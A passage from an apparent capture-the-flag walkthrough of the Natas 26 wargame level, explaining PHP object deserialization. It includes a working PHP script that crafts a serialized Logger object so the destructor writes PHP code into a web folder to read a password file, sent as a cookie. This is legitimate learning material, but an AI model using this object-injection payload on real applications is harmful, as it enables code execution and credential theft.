 Now for the meat. Often the way serialization bugs go is something occurs during an object's constructor or destructor that the attacker can commandeer for nefarious purposes.  I wrote about another PHP object serialization challenge [here](/2016/09/16/tryharder-php-object.html) where the contents of a member variable were executed as a command in the constructor.

Check out the Logger class. Both the constructor and destructor write to a file. What file? Whatever is stored in the `$logFile` member variable. What does it write? What ever is stored in the `$initMsg` and `$exitMsg` member variables. Ch-ching.

Recall that the definition of the class does not go along for the ride when an object is serialized. We only need to make a class named Logger, load up the member variables we want, and send it along. To do that, another short program on the side.

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="heyyyyyy\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/n0j.txt";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";

?>
```

Obviously the message we're after is the password to natas27 so we grab that and load it into a variable. We know we can write to the `img` folder because that's what the application does with legitimate images. We also know we'll be able to read it back from there, again because that's what the application does with legitimate images.

![natas26-04](/img/otw-natas/natas26-04.png)

A note on how this works... why would we send a Logger object into a function that's expecting arrays with coordinates and whatnot, doesn't sound like that will work. Short answer - it doesn't work! But the object is loaded into the `$drawing` variable so when its life ends the destructor will be called and that's all we care about.

Send our baked-up cookie along using the trusty Burp Repeater...
